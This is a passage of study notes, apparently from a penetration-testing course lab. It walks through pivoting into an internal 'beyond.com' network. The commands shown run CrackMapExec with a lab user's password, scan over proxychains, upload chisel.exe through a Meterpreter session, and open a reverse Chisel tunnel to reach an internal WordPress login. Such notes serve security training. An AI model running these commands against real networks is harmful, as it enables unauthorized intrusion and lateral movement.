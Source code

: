 		- `cat /etc/proxychains4.conf`
	6. Begin with CrackMapExec's SMB module to retrieve basic information of the identified servers (such as SMB settings). We'll also provide the credentials for *john* to list the SMB shares and their permissions with **--shares**
		- `proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares`
			- [Note]:
				- `CrackMapExec version 5.4.0 may throw the error The NETBIOS connection with the remote host is timed out for DCSRV1, or doesn't provide any output at all. Version 5.4.1 contains a fix to address this issue`
		- result -> The output also states that MAILSRV1 and INTERNALSRV1 have SMB signing set to False. Without this security mechanism enabled, we can potentially perform *relay attacks* if we can force an authentication request.
- Next, let's use **Nmap** to perform a port scan on ports commonly used by web applications and FTP servers targeting MAILSRV1, DCSRV1, and INTERNALSRV1. We have to specify **-sT** to perform a TCP connect scan. Otherwise, Nmap will not work over Proxychains.
	- `sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.6.240 172.16.6.241 172.16.6.254`
- While we could use the SOCKS5 proxy and proxychains to browse to the open port on 172.16.6.241, we'll use **Chisel** as it provides a more stable and interactive browser session. 
	1. Download the Windows and Linux amd64 versions and extract the binaries in **/home/kali/beyond/**.
	2. On our Kali machine, we'll use *Chisel* in server mode to receive incoming connections on port 8080. In addition, we'll add the **--reverse** option to allow reverse port forwarding.
		- `chmod a+x chisel`
		- `./chisel server -p 8080 --reverse`
	3. Then, we'll transfer the extracted **chisel.exe** binary to CLIENTWK1 by using Meterpreter's **upload** command.
		- `sessions -i 1`
		- `upload chisel.exe C:\\Users\\marcus\\chisel.exe`
	4. Now, we can enter **shell** and utilize *Chisel* in *client mode* to connect back to our Kali machine on port 8080. We'll create a reverse port forward with the syntax **R:localport:remotehost:remoteport**. In our case, the remote host and port are 172.16.6.241 and 80. The local port we want to utilize is 80.
		- `chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80`
- Once Chisel connects, we can browse to port 80 on 172.16.6.241 via port 80 on our Kali machine (127.0.0.1) by using Firefox:
- Let's browse to the dashboard login page for WordPress at **http://127.0.0.1/wordpress/wp-admin** and try to log into it with credentials we've discovered so far.
	- result -> The navigation bar in Firefox shows that we were redirected to **internalsrv1.beyond.com**. We can assume that the WordPress instance has the DNS name set as this address instead of the IP address. Because our machine doesn't have information about this DNS name, we cannot connect to the page.
- To be able to fully use the web application, we'll add **internalsrv1.beyond.com** via **127.0.0.1** to **/etc/hosts**.
	- result -> login page is now displayed correctly.

Summary:
-  First, we enumerated all active sessions. Interestingly, the domain administrator *beccy* has an active session on MAILSRV1. Next, we identified *daniela* as a kerberoastable user due to the **http/internalsrv1.beyond.com** SPN.
- Then, we set up a SOCKS5 proxy with Metasploit and used CrackMapExec and Nmap to perform network enumeration. The output revealed that MAILSRV1 and INTERNALSRV1 each have an accessible web server and SMB signing disabled. Via Chisel, we were able to browse to the WordPress instance on INTERNALSRV1. However, none of the credentials worked to log in to the WordPress login page.
